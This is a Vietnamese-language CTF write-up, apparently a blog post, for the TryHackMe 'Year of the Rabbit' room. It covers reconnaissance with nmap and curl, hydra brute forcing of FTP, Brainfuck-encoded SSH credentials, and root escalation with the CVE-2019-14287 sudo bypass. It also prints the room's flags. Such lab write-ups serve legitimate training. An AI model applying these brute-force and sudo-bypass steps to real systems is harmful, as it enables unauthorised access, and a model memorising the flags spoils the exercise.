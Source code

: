 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Year of the Rabbit
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - THM-Room 
  - Privilege Escalation
  - CVE-2019-14287
---
```


# __Year of the Rabbit__

Room at https://tryhackme.com/room/yearoftherabbit

---

??? question "List of the questions solved"

    Question: What is the user flag?

    > `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

    Question: What is the root flag?

    > `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

## __Pentest scenario__

Host: 10.10.25.94

### __Reconnaissance__

Đầu tiên, ta sẽ scan port và directory của website.

```ps1 title="Nmap scan NULL"
PORT   STATE         SERVICE
21/tcp open|filtered ftp
22/tcp open|filtered ssh
80/tcp open|filtered http
```

Từ scan port, ta thấy website có mở port 21 với service ftp. Một tip nhỏ để biết có login ẩn danh được hay không là dùng curl để xử lý.

```ps1 title="Curl"
└─$ curl ftp://10.10.25.94 -v   
*   Trying 10.10.25.94:21...
* Connected to 10.10.25.94 (10.10.25.94) port 21 (#0)
< 220 (vsFTPd 3.0.2)
> USER anonymous
< 331 Please specify the password.
> PASS ftp@example.com
< 530 Login incorrect.
* Access denied: 530
* Closing connection 0
curl: (67) Access denied: 530
```

Từ kết quả của curl, ta thấy không login được với user ẩn danh.

Tiếp tục scan dir bằng gobuster, ta thấy website có trang `http://10.10.25.94/assets/`. Với file RickRolled thì chúng ta hiểu nó là gì rồi ::). Và file style.css ta thấy một hint khá hữu ích về trang web ẩn `../sup3r_s3cr3t_fl4g.php`

![Style.css](image.png)

Vào website thì ta phát hiện nó chặn js 

![](image-1.png)

Một tip nhỏ nữa, ta cũng sẽ dùng curl để xem xét gói tin, thay vì tắt js. (Bạn đọc thì nên tắt js xem website nó thể hiện gì nhen :3)

```ps1 title="Curl"
└─$ curl http://10.10.25.94/sup3r_s3cr3t_fl4g.php -v 
*   Trying 10.10.25.94:80...
* Connected to 10.10.25.94 (10.10.25.94) port 80 (#0)
> GET /sup3r_s3cr3t_fl4g.php HTTP/1.1
> Host: 10.10.25.94
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Fri, 01 Sep 2023 16:31:02 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.25.94 left intact
```

Ta thấy nó có 1 folder ẩn là `WExYY2Cv-qU`. Cứ curl tiếp

```ps1 title="Curl"
└─$ curl http://10.10.25.94/WExYY2Cv-qU/ -v                    
*   Trying 10.10.25.94:80...
* Connected to 10.10.25.94 (10.10.25.94) port 80 (#0)
> GET /WExYY2Cv-qU/ HTTP/1.1
> Host: 10.10.25.94
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 01 Sep 2023 16:34:27 GMT
< Server: Apache/2.4.10 (Debian)
< Vary: Accept-Encoding
< Content-Length: 954
< Content-Type: text/html;charset=UTF-8
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /WExYY2Cv-qU</title>
 </head>
 <body>
<h1>Index of /WExYY2Cv-qU</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/image2.gif" alt="[IMG]"></td><td><a href="Hot_Babe.png">Hot_Babe.png</a></td><td align="right">2020-01-23 00:34  </td><td align="right">464K</td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.10 (Debian) Server at 10.10.25.94 Port 80</address>
</body></html>
* Connection #0 to host 10.10.25.94 left intact
```

Ta nhận được file `Hot_Babe.png`. Được rồi ta sẽ get file về.

Với strings, ta thấy rằng đoạn sau của file ảnh hiển thị thông tin username và password cho việc login bằng ftp

![](image-2.png)

Ta sẽ dùng hydra để brute force password

![](image-3.png)

??? note "No...."
    user: ftpuser

    pass: 5iez1wGXKfPKQ

Login ftp thôi, ta sẽ được thêm 1 đoạn text mới

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Đây là thông điệp được mã hóa bằng Brainfuck. Dùng các website decode trên mạng ta được thông tin login ssh

- User: eli
- Password: DSpDiM1wAEwid

### __Init Access__

Sau khi login ssh ta thấy được hint cũng khá có ý nghĩa

![Hint](image-4.png)

Hint nói rằng có một file s3cr3t nào đó, tìm thông tin file bằng `find`

```ps1
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

> password for user gwendoline is MniVCQVhQHUNI

Tiếp tục login với user gwendoline...

```ps1 title="Sudo -l"
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Searchsploit ta thấy kết quả đây là CVE-2019-14287

### __Privilege Escalation__

Dựa và mô tả của CVE-2019-14287 như trên, ta dễ dàng leo quyền root

> sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
>
> :!/bin/sh

## __What we learned__

1. Disable Javascript
2. Brainfuck
3. CVE-2019-14287
